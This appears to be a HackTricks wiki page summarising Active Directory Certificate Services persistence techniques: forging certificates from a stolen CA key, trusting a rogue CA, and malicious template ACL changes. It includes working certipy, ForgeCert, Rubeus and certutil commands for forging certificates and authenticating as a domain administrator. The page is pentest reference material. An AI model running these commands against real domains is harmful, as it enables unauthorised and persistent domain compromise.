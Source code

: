 # AD CS Domain Persistence

{{#include ../../../banners/hacktricks-training.md}}

**This is a summary of the domain persistence techniques shared in [https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)**. Check it for further details.

## Forging Certificates with Stolen CA Certificates - DPERSIST1

How can you tell that a certificate is a CA certificate?

It can be determined that a certificate is a CA certificate if several conditions are met:

- The certificate is stored on the CA server, with its private key secured by the machine's DPAPI, or by hardware such as a TPM/HSM if the operating system supports it.
- Both the Issuer and Subject fields of the certificate match the distinguished name of the CA.
- A "CA Version" extension is present in the CA certificates exclusively.
- The certificate lacks Extended Key Usage (EKU) fields.

To extract the private key of this certificate, the `certsrv.msc` tool on the CA server is the supported method via the built-in GUI. Nonetheless, this certificate does not differ from others stored within the system; thus, methods such as the [THEFT2 technique](certificate-theft.md#user-certificate-theft-via-dpapi-theft2) can be applied for extraction.

The certificate and private key can also be obtained using Certipy with the following command:

```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```

Upon acquiring the CA certificate and its private key in `.pfx` format, tools like [ForgeCert](https://github.com/GhostPack/ForgeCert) can be utilized to generate valid certificates:

```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```

> [!WARNING]
> The user targeted for certificate forgery must be active and capable of authenticating in Active Directory for the process to succeed. Forging a certificate for special accounts like krbtgt is ineffective.

This forged certificate will be **valid** until the end date specified and as **long as the root CA certificate is valid** (usually from 5 to **10+ years**). It's also valid for **machines**, so combined with **S4U2Self**, an attacker can **maintain persistence on any domain machine** for as long as the CA certificate is valid.\
Moreover, the **certificates generated** with this method **cannot be revoked** as CA is not aware of them.

## Trusting Rogue CA Certificates - DPERSIST2

The `NTAuthCertificates` object is defined to contain one or more **CA certificates** within its `cacertificate` attribute, which Active Directory (AD) utilizes. The verification process by the **domain controller** involves checking the `NTAuthCertificates` object for an entry matching the **CA specified** in the Issuer field of the authenticating **certificate**. Authentication proceeds if a match is found.

A self-signed CA certificate can be added to the `NTAuthCertificates` object by an attacker, provided they have control over this AD object. Normally, only members of the **Enterprise Admin** group, along with **Domain Admins** or **Administrators** in the **forest root’s domain**, are granted permission to modify this object. They can edit the `NTAuthCertificates` object using `certutil.exe` with the command `certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`, or by employing the [**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool).

This capability is especially relevant when used in conjunction with a previously outlined method involving ForgeCert to dynamically generate certificates.

## Malicious Misconfiguration - DPERSIST3

Opportunities for **persistence** through **security descriptor modifications of AD CS** components are plentiful. Modifications described in the "[Domain Escalation](domain-escalation.md)" section can be maliciously implemented by an attacker with elevated access. This includes the addition of "control rights" (e.g., WriteOwner/WriteDACL/etc.) to sensitive components such as:

- The **CA server’s AD computer** object
- The **CA server’s RPC/DCOM server**
- Any **descendant AD object or container** in **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`** (for instance, the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, etc.)
- **AD groups delegated rights to control AD CS** by default or by the organization (such as the built-in Cert Publishers group and any of its members)

An example of malicious implementation would involve an attacker, who has **elevated permissions** in the domain, adding the **`WriteOwner`** permission to the default **`User`** certificate template, with the attacker being the principal for the right. To exploit this, the attacker would first change the ownership of the **`User`** template to themselves. Following this, the **`mspki-certificate-name-flag`** would be set to **1** on the template to enable **`ENROLLEE_SUPPLIES_SUBJECT`**, allowing a user to provide a Subject Alternative Name in the request. Subsequently, the attacker could **enroll** using the **template**, choosing a **domain administrator** name as an alternative name, and utilize the acquired certificate for authentication as the DA.

{{#include ../../../banners/hacktricks-training.md}}



